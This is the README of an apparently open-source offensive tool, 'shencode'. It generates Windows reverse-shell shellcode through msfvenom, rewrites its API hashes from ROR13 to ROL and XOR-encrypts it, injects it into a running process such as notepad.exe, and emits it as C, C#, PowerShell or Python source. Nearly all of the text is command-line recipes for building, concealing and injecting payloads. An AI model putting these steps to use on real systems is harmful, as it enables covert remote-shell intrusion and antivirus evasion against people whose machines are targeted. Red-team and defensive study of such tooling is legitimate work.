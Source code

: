 # shencode

# shencode
Create, encode, iniject, show Shellcode

![](shencode-040.png)
## Features

### Version 0.3

- create
	- create shellcodes with msfvenom
- encode
	- search and replace ROR13 encoding with ROL
	- XOR encryption
- inject
	- inject shellcode into a remote process
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- output in console windows
	- output in template

## ToDo

- chaining commands for better integration
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

#### ROR13 to ROL

`python shencode.py encode --filename sc-120824-120101.bin --key 33`

#### XOR

`python shencode.py encode --filename shell.raw --xor --xorkey 96`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- |
| create      |                |           | create a shellcode using msfvenom                                                     |
|             | --payload      | -p        | payload to use e.g. windows/shell_reverse_tcp                                         |
|             | --lhost        | -lh       | LHOST Argument                                                                        |
|             | --lport        | -lp       | LPORT Argument                                                                        |
| encode      |                |           | Shellcode encoding                                                                    |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |
|             | --key          | -rk       | ROL key for encoding                                                                  |
|             | --xor          | -x        | use additional XOR encoding                                                           |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |
|             | --decompile    |           | decompile modified bytes                                                              |
|             | --showmod      |           | display modifications                                                                 |
| inject      |                |           | inject shellcode                                                                      |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |
|             | --processname  | -p        | process name to inject                                                                |
|             | --startprocess | -s        | if set, process will be started                                                       |
| output      |                |           | create formatted output by filename                                                   |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --syntax       | -s        | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
